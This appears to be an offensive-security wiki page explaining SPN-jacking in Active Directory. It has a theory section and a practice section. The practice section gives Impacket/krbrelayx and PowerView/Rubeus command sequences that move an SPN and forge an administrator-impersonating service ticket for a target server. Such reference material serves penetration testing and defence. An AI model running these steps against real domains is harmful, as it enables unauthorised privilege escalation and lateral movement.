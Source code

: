 # SPN-jacking

## Theory

This attack combines [Kerberos Constrained delegation abuse](delegations/constrained.md) and [DACL abuse](broken-reference). A service configured for Kerberos Constrained Delegation (KCD) can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (Service Principal Names) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to [modify it](ptt.md#modifying-the-spn), the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by [Elad Shamir](https://twitter.com/elad\_shamir) in [this post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's `ServicePrincipalName` attribute (i.e. `GenericAll`, `GenericWrite` over the object or`WriteProperty` over the attribute (called `WriteSPN` [since BloodHound 4.1](https://posts.specterops.io/introducing-bloodhound-4-1-the-three-headed-hound-be3c4a808146)), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (`GenericAll`, `GenericWrite`, etc.) over the SPN owner as well (_a.k.a. "Live SPN-jacking"_). Else, the SPN can be simply be added to the target object (_a.k.a. "Ghost SPN-jacking"_).

## Practice

{% hint style="info" %}
In this scenario, we assume the Kerberos Constrained Delegation is configured [with protocol transition](delegations/constrained.md#with-protocol-transition) in order to keep things simple. However, the SPN-jacking attack can be conducted on [KCD without protocol transition](delegations/constrained.md#without-protocol-transition) as well (cf. [RBCD technique](delegations/constrained.md#rbcd-approach)).

In this scenario (following [Elad](https://twitter.com/elad\_shamir)'s [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)):

* serverA is configured for KCD
* serverB's SPN is listed in serverA's KCD configuration
* serverC is the final target
* attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like machines, [krbrelayx](https://github.com/dirkjanm/krbrelayx)'s [addspn.py](https://github.com/dirkjanm/krbrelayx/blob/master/addspn.py) and [Impacket](https://github.com/SecureAuthCorp/impacket) example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

_At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding the `tgssub.py` is pending._ [_The pull request_](https://github.com/SecureAuthCorp/impacket/pull/1184) _modifying the `findDelegation.py` is pending._

\_\_:warning: _At the time of writing, 12th Feb. 2022, this technique has not been fully fool-proofed from UNIX systems. In case something errors, switch to the Windows technique._

```python
# 1. show SPNs listed in the KCD configuration
findDelegation.py -user 'serverA$' "DOMAIN"/"USER":"PASSWORD"

# 2. remove SPN from ServerB if required (live SPN-jacking)
addspn.py --clear -t 'ServerB$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 3. add SPN to serverC
addspn.py -t 'ServerC$' --spn "cifs/serverB" -u 'domain\user' -p 'password' -c 'DomainController.domain.local'

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:password'

# 5. Edit the ticket's SPN (service class and/or hostname)
tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
```

Once the final service ticket is obtained, it can be used with [Pass the Cache](ptc.md) / [Pass the Ticket](ptt.md) to access the target.
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerShell) and [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

```powershell
# 1. show SPNs listed in the KCD configuration
Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

# 2. remove SPN from ServerB if required (live SPN-jacking)
Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

# 3. add SPN to serverC
Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"domain" /user:"user" /password:"password"

# 5. Edit the ticket's SPN (service class and/or hostname)
Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
```

Once the final service ticket is obtained, it can be used with [Pass the Ticket](ptt.md) to access the target.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse" %}
